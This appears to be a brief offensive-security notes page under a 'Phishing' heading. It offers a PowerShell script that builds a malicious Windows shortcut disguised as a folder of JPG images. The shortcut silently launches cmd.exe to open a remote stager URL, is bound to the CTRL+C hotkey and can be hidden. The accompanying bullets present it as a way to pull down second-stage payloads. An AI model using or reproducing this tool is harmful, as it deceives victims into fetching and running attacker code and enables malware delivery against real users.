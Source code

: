 # Phishing

### Malicious LNK Generator&#x20;

```
$path                      = "$([Environment]::GetFolderPath('Desktop'))\Folder-Images.lnk"
$wshell                    = New-Object -ComObject Wscript.Shell
$shortcut                  = $wshell.CreateShortcut($path)

$shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,4"

$shortcut.TargetPath       = "cmd.exe"
$shortcut.Arguments        = "/c start /b http://my-stager.com/mal.aspx"
$shortcut.WorkingDirectory = "C:"
$shortcut.HotKey           = "CTRL+C"
$shortcut.Description      = "Item Type: JPG Images"

$shortcut.WindowStyle      = 7
                           # 7 = Minimized window
                           # 3 = Maximized window
                           # 1 = Normal    window
$shortcut.Save()

(Get-Item $path).Attributes += 'Hidden' # Optional if we want to make the link invisible (prevent user clicks)

```

* Run in powershell ise it will give you a hidden lnk file that will map ctrl + c to your command.&#x20;
* Great for pulling down second stages and such&#x20;
